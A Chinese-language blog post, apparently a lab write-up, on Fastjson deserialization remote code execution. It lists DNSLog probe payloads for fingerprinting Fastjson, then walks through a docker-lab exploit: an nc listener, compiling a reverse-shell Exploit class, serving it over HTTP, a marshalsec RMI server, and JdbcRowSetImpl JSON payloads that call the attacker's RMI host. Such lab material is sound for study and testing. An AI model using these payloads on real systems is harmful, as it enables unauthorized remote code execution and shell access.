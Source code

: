 # Fastjson反序列化




## 简介

fastjson 是阿里巴巴的开源JSON解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean。可以通过反序列化导致远程命令执行。





## 漏洞检测方法

### DNSLog回显

下面有多个请求，分别放到请求数据包部分(可能某个不适用, 多试几个)，通过构造DNS解析来判断是否是Fastjson，Fastjson在解析下面这些Payload时会取解析val的值，从而可以**在dnslog接收到回显**，**以此判断是不是Fastjson**

```json
{"a":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}

{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.Inet6Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"xxx.dnslog.cn"}}""}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:"aaa"}
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}]
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:0
```



### 增加key

Java语言中常用的Json处理主要是Fastjson和Jackson，相对而言，Jackson比较严格，强制Key和JavaBean属性对齐，只能少Key不能多Key，所以可以通过增加一个Key看响应包会不会报错来判断。



## 利用复现

这里用的docker环境

<img src="http://image.xpshuai.cn/fj1.jpg"></img>



1.查看数据包，可以用上面的`漏洞检测`的方法来判断

<img src="http://image.xpshuai.cn/fj2.jpg"></img>





2.vps用nc监听端口8888

```bash
nc -lvvp 8888
```



EXP地址：https://github.com/CaijiOrz/fastjson-1.2.47-RCE

3.修改exp中反弹shell的服务器地址和为我们的

<img src="http://image.xpshuai.cn/fj3.jpg"></img>



4.使用javac进行编译，然后会生成一个Exploit.class文件

```bash
javac Exploit.java
```

<img src="http://image.xpshuai.cn/fj4.jpg"></img>



5.在Exploit.class的目录下开启python的简单http服务，相当于访问就能下载

```bash
python -m SimpleHTTPServer 8080
```

<img src="http://image.xpshuai.cn/fj5.jpg"></img>

6.执行下面的命令开启RMI/LDAP服务

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.43.102:8080/#Exploit" 9999	#8080是前面SimpleHTTPServer的端口

```

<img src="http://image.xpshuai.cn/fj6.jpg"></img>







7.构造exp请求包

```json
# 1.2.47以下版本
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.43.102:9999/Exploit",
        "autoCommit":true
    }
}







# 1.2.24以下版本
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://同上类文件地址:9999/TouchFile",
        "autoCommit":true
    }
}

```



8.构造好的请求包发送如下，注意：Content-type格式要`json`，并且是`post`请求

```bash
Content-type: application/json
```

<img src="http://image.xpshuai.cn/fj7.jpg"></img>



9.接收到反弹回来的shell

<img src="http://image.xpshuai.cn/fj8.jpg"></img>





参考：https://www.naraku.cn/posts/86.html



---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AE%9E%E9%AA%8C/  

